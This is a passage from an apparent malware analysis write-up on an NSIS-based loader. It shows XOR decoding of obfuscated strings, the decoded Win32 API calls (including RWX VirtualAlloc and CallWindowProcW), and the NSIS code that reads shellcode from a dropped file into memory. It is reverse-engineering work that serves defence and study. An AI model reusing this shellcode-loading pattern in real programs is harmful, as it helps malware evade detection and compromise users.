 ```powershell
powershell.exe 0x78 -bxor 51 # = K
powershell.exe 0x76 -bxor 51 # = E
powershell.exe 0x61 -bxor 51 # = R
# ...
```

The script does that until all of the relevant data of the `Hosannaed.dix` file is decrypted. The data decrypts to the ascii representation of Win32 API calls to several methods.

```text
KERNEL32::CreateFileA(m r4 , i 0x80000000, i 0, p 0, i 4, i 0x80, i 0)i.r5_
KERNEL32::VirtualAlloc(i 0,i 0x100000, i 0x3000, i 0x40)p.r1_
KERNEL32::SetFilePointer(i r5, i 3240 , i 0,i 0)i.r8_
KERNEL32::ReadFile(i r5, i r1, i 0x100000,*i 0, i 0)i.r3_
user32::CallWindowProcW(i r1 ,i 0,i 0, i 0, i 0)_
```

The NSIS script then uses `System::Call $_57_` to execute these Win32 API functions in the context of the NSIS installer. 
That means that the NSIS installer fills the `r1` - `r9` [registers](https://nsis.sourceforge.io/Docs/Chapter4.html#varother) before executing the API calls and stores the results back into the specified registers.

### Loading Shellcode

As we learned earlier, each of these API calls gets executed right after it got decrypted (indicated by a "_" followed by a new line (`0x0d0a`)).
At first the [`KERNEL32::CreateFileA`](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) API call reads the file passed in **r4**. The return value is stored in the **r5** register. At that time **r4** already contains the path to `Diabasen.Une`.

```nsis
label_145:
  HideWindow
  StrCpy $4 $INSTDIR\Diabasen.Une ; store path to Diabasen.Une in r4
  Push $INSTDIR\Hosannaed.dix
  Call func_47
```

Then the installer allocates **0x100000** (1.048.576) bytes of memory with [`KERNEL32::VirtualAlloc`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc). The result (=address of the allocated buffer) is stored in **r1**.

With [`KERNEL32::SetFilePointer`](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfilepointer) the malware jumps to a specific offset (3240 decimal) within the file `Diabasen.Une`, which it read in the first step (**r5**).
The malware then reads the file `Diabasen.Une` (at said offset) to the earlier allocated memory by calling [`KERNEL32::ReadFile`](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) and passing the file pointer and the pointer to the allocated memory in the api call.
Afterwards we're left with a successfully loaded shellcode in some memory region that's waiting to be executed.

### Executing the shellcode - CallWindowProcW
